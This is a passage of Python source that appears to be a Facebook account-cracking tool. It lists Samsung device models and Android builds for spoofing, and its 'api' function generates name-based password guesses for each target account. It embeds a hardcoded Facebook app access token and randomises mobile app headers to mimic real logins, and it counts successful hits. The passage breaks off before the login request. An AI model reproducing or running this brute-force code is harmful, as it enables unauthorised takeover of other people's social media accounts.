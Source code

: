 xxxxx=("GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
def api(ids,names,passlist):
        try:
                global ok,loop,sim_id
                sys.stdout.write('\r\r\033[1;37m [HEROES-RUNING ] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        en = random.choice(['en_US','en_GB'])
